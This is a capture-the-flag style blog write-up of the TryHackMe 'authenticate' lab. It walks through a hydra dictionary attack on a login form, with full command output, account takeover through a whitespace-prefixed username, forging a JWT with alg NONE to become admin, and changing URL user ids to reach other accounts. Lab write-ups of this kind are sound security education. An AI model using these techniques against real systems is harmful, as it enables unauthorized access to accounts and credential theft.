 ```yaml
---
title: 'Exploiting Common Authentication Misconfigurations'
date: 2020-07-26 00:00:00
featured_image: '/images/posts/authenticate-icon.png'
excerpt: 'Authentication system helps keeping the unauthorized users away and plays a key role in a information technology systems. Know common type of attacks on authentication systems and common misconfigurations by developers.'
---
```

![](/images/posts/authenticate.png)

Authentication is one of the key components of a system. With the rise of internet usage and the number of applications, authentication became a key part of information technology space. But when the application developers misconfigure such systems, it opens the door for unauthorized access.

This post shows attacks on the authentication system and also how a misconfigure JWT based system can be exploited, by following the [TryHackMe](https://tryhackme.com/room/authenticate) provided vulnerable application.  


### Attacks on Authentication Systems
Common attack methods used to exploit the authentication systems and networks:

- **Brute force attack** - attempts to guess the credentials based on all possible character combinations.
- **Dictionary attack** - is based on a file of words and common passwords to guess the credentials.    
- **Pass the hash attack** - in a pass the hash attack, the attacker discovers the hash of the user's password and then uses it to log on to the system as the user.
- **Birthday attack** - in this the attacker will be able to create a password that produces the same hash as the user's actual password and is also known as a hash collision.  A hash collision occurs when a hashing algorithm creates the same hash for two different inputs (passwords).  
- **Rainbow table attack** - in this the attacker attempts to discover the password by comparing the actual password hash with a huge database of precomputed hashes, called the Rainbow table.  
- **Replay attack** - capturing the data in a session with the intent of later impersonating one of the parties in the session.  

### Example misconfigurations
Here are some example misconfigurations and we can see how these can be exploited.  
- **Lack of input sanitization**  When a developer ignores the sanitization of user input like username and passwords in the application code, then such application is vulnerable to attacks like SQL injections, buffer overflow attack, Cross-site scripting (CSS).  
- **JSON Web Token (JWT) misconfiguration**  A JSON web token, or JWT (“jot”) for short, is a standardized, optionally validated and/or encrypted container format that is used to securely transfer information between two parties. A misconfiguration can lead to exploit the authentication system.  
- **NoAuth** This type of vulnerability is very rare, but when it occurs, we can access other userspace just by changing the user id in the URL after login.   

## In Action
**Deploy the VM from [TryHackMe](https://tryhackme.com/room/authenticate) to exploit the authentication vulnerabilities.**    

### 1. Dictionary Attack
1. Access the web application on port 8888, which requests to provide user name and password.
1. The attack can be performed with Burp (from intruder with Sniper) or using `hydra`.  Lets use `hydra` for this demo.
1. But before that, we need to capture the http request that is being used for authentication.
1. Start Burp tool and capture the http request by posting some random credentials, like Jack:testpwd.
   Below is the http post request that was captured.
 ```
    POST /login HTTP/1.1
    Host: 10.10.237.94:8888
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.237.94:8888/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 26
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1

    user=jack&password=testpwd
 ```
1. Using `hydra`, lets perform the dictionary attack (with file rockyou.txt) to get the password for  users:
   jack and mike.    
 ```bash
    $ hydra -l jack -P /usr/share/wordlists/rockyou.txt 10.10.237.94 -s 8888 http-post-form "/login:user=^USER^&password=^PASS^:invalid_credentials"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 14:47:40
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.237.94:8888/login:user=^USER^&password=^PASS^:invalid_credentials
    [8888][http-post-form] host: 10.10.237.94   login: jack   password: 12345678
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 14:47:57

    #mike
    $ hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.237.94 -s 8888 http-post-form "/login:user=^USER^&password=^PASS^:invalid_credentials"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 14:48:37
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.237.94:8888/login:user=^USER^&password=^PASS^:invalid_credentials
    [8888][http-post-form] host: 10.10.237.94   login: mike   password: 12345
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 14:48:44
```

1. From above we can see, the attack was successful and the passwords for the users are `12345678` and `12345` respectively.
1. Login with the above credentials and capture the user flags:  
 `fad9ddc1fe--------a05f02dd89e271` and `e1faaa144df--------9284f4a5bb578`.


### Re-registration due to lack of input sanitization  
In this attack, instead of performing dictionary based, we will use the application vulnerability where the input sanitization is not performing while registering for a new account. Lets exploit this by registering a new account that resembles to target user account, but with a leading white space in the user name field.

There is a user `darren`, but we don't have the password, so let's create a new account as `\darren` (notice a leading white space).  
Post account creation, log in with the new user `\ darren`, but the application logs into `darren` and capture the flag `fe86079416a--------37fea8874b667`.

![](/images/posts/authenticate-sample-account.png){:height="60%" width="60%"}

Repeat the same procedure for user `arthur`, by creating a new user account with user name as `\ arthur` and login to capture the flag:  
 `d9ac0f7d--------ac3edeb75d75e16e`.

### JSON Web Token  

A JWT contains three parts in the format [ Header ].[ Payload ].[ Signature ]  
Please refer to the article for more details on [JWT](https://medium.com/ag-grid/a-plain-english-introduction-to-json-web-tokens-jwt-what-it-is-and-what-it-isnt-8076ca679843).

1. Access the web application on port 5000 and authenticate with user:user
1. Capture the JWT token either from Burp or using a `browser-->web developer tools-->Storage--> Local Storage`.  

  JWT Token: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTU3OTE2ODEsImlhdCI6MTU5NTc5MTM4MSwibmJmIjoxNTk1NzkxMzgxLCJpZGVudGl0eSI6MX0.bAPHetpdduqoY3_o2og5Et7W2Ies9VL3AKMntD1_2yA`  

  Complete Post request:  

 ```
      GET /protected HTTP/1.1
      Host: 10.10.237.94:5000
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
      Accept: */*
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Referer: http://10.10.237.94:5000/
      Content-Type: application/json
      Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTU3OTE2ODEsImlhdCI6MTU5NTc5MTM4MSwibmJmIjoxNTk1NzkxMzgxLCJpZGVudGl0eSI6MX0.bAPHetpdduqoY3_o2og5Et7W2Ies9VL3AKMntD1_2yA
      DNT: 1
      Connection: close
 ```
1. The first two parts of a JWT token can be decoded using base64 decoder or from this [JWT debugger](https://jwt.io/#debugger-io).  
    ![](/images/posts/jwt-debugger.png){:height="100%" width="100%"}  
1. From the header decoded information, we can see, the algorithm using is `HS256` and in the payload, the identity is 1, which could be user ids.  
1. Let us exploit the misconfigured application, where the authentication system is not validating the tokens properly.   
1. Modify the token by making the algorithm to NONE, identity as 0 (assuming 0 is the admin account) and the third part is not required as the algorithm is NONE.
1. Encode first two parts with base64 [encoder](https://www.base64encode.org):   
`{"typ":"JWT","alg":"NONE"}` --> `eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=`
`{"exp": 1595791681, "iat": 1595791381,"nbf": 1595791381, "identity": 0}` --> `eyJleHAiOiAxNTk1NzkxNjgxLCAiaWF0IjogMTU5NTc5MTM4MSwibmJmIjogMTU5NTc5MTM4MSwgImlkZW50aXR5IjogMH0=`
1. The new JWT token for admin is now ready, `eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=.eyJleHAiOiAxNTk1NzkxNjgxLCAiaWF0IjogMTU5NTc5MTM4MSwibmJmIjogMTU5NTc5MTM4MSwgImlkZW50aXR5IjogMH0=.` and replace this in the browser session and click GO.
1. We now logged into the application with the `admin` user as shown in the below image.  

![](/images/posts/JWT-admin-login.png){:height="60%" width="60%"}

### No Auth
As mentioned earlier, this type of vulnerability is very rare in today's application but exists when designed the application poorly.  

1. Access the application on port 7777.
2. Create a new account and login.  
3. Visit private space and you can notice the url `http://10.10.237.94:7777/users/1`
4. Change the user id `1` with `0`, which access the superadmin's private space.  

### Conclusion
The Authentication and Authorization system are very critical in information technology space, a misconfigured system will open the door for attackers. Implementing the policies like Account lockouts, password complexities, salting the passwords, multi factor authentication, using strong hash algorithms for storing the credentials and performing the input sanitization when allowing users to input the data can help in avoiding the exploitation of authentication systems.  

###### References:  
1. Image and exploitable VM credits: [TryHackMe](https://tryhackme.com/room/authenticate).  
1. Gibson, D. (2014). Protecting Against Advanced Attacks. In CompTIA Security+ get certified get ahead SYO-401 study guide. YCDA, LLC.  
1. Koretskyi, M. (2018, June 26). A plain English introduction to JSON web tokens (JWT): what it is and what it isn't. Medium. https://medium.com/ag-grid/a-plain-english-introduction-to-json-web-tokens-jwt-what-it-is-and-what-it-isnt-8076ca679843.  

